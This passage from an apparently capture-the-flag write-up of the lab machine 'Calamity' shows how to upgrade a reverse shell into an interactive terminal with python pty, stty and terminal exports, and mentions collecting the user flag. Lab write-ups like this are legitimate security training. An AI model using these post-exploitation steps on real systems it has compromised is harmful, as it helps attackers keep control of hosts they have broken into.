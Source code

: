 ## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Hard/Calamity/Screenshots/stty.png)

you can get the `user flag` from 

![](/Linux/Linux-Hard/Calamity/Screenshots/userflag.png)
